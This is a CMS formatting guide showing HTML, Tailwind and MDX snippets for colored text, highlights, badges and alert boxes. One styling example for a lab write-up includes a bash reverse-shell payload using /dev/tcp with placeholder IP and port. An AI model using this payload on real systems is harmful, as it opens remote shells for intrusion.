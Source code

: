 # Rich Content Formatting Guide for Your CMS

Your Tailblaze CMS now supports rich formatting! Here's how to add colors, highlights, and custom styling to your blog posts:

## 🎨 **Colored Text**

### Method 1: Using HTML in Markdown
```html
<span style="color: red;">This text is red</span>
<span style="color: #3B82F6;">This text is blue</span>
<span style="color: green; font-weight: bold;">Bold green text</span>
```

### Method 2: Using Tailwind Classes
```html
<span class="text-red-600 font-bold">Bold red text</span>
<span class="text-blue-500 underline">Blue underlined text</span>
<span class="text-purple-600 text-xl">Large purple text</span>
```

### Method 3: Using Custom Components (MDX)
```jsx
<ColoredText color="red">This text is red</ColoredText>
<ColoredText color="blue">This text is blue</ColoredText>
```

## ✨ **Highlights and Emphasis**

```html
<mark>This text is highlighted</mark>
<span class="bg-yellow-200 px-1 rounded">Custom highlight</span>
```

Using component:
```jsx
<Highlight>This is highlighted text</Highlight>
```

## 🏷️ **Badges and Labels**

```html
<span class="bg-blue-100 text-blue-800 px-2 py-1 rounded text-sm font-medium">Badge</span>
```

Using component:
```jsx
<Badge>Important</Badge>
```

## 📦 **Alert Boxes**

```jsx
<Alert type="info">This is an info alert</Alert>
<Alert type="warning">This is a warning</Alert>
<Alert type="error">This is an error alert</Alert>
<Alert type="success">This is a success alert</Alert>
```

## 📝 **Custom Boxes**

```jsx
<Box>
This content is in a styled box with border and background
</Box>
```

## 💻 **Inline Code with Colors**

```html
<code class="bg-gray-100 text-green-600 px-1 py-0.5 rounded">colorful code</code>
```

Using component:
```jsx
<InlineCode>styled code</InlineCode>
```

## 🎯 **Common Color Classes**

- **Text Colors**: `text-red-600`, `text-blue-600`, `text-green-600`, `text-purple-600`, `text-pink-600`
- **Background Colors**: `bg-red-100`, `bg-blue-100`, `bg-green-100`, `bg-yellow-100`
- **Font Weights**: `font-light`, `font-normal`, `font-medium`, `font-semibold`, `font-bold`
- **Text Sizes**: `text-xs`, `text-sm`, `text-base`, `text-lg`, `text-xl`, `text-2xl`

## 🚀 **Advanced Styling Examples**

### Cybersecurity Content Example:
```html
<Alert type="warning">
<strong>⚠️ Security Alert:</strong> This vulnerability has a <span class="text-red-600 font-bold">CRITICAL</span> severity rating.
</Alert>

<Box>
<h4 class="text-blue-600 font-semibold">Exploitation Steps:</h4>
<ol>
<li>Identify the <InlineCode>command injection</InlineCode> point</li>
<li>Craft payload: <code class="bg-red-100 text-red-800 px-1 rounded">bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'</code></li>
<li>Execute and gain <Highlight>reverse shell</Highlight></li>
</ol>
</Box>
```

### Machine Info Box:
```html
<div class="bg-gray-50 border-l-4 border-blue-500 p-4 mb-4">
<h4 class="text-blue-600 font-semibold mb-2">🖥️ Lab Information</h4>
<ul class="space-y-1">
<li><strong>Machine Name:</strong> <span class="text-green-600 font-mono">Vanity</span></li>
<li><strong>Platform:</strong> <span class="text-blue-600">Proving Grounds Practice</span></li>
<li><strong>Difficulty:</strong> <Badge>Intermediate</Badge></li>
</ul>
</div>
```

## 📋 **Quick Reference**

Copy these examples directly into your CMS body field:

1. **Red text**: `<span style="color: red;">red text</span>`
2. **Blue bold**: `<span class="text-blue-600 font-bold">blue bold</span>`
3. **Highlight**: `<mark>highlighted</mark>`
4. **Info box**: `<Alert type="info">Your message</Alert>`
5. **Code**: `<InlineCode>code</InlineCode>`

Your CMS will render all of these with beautiful Tailblaze styling! 🎉
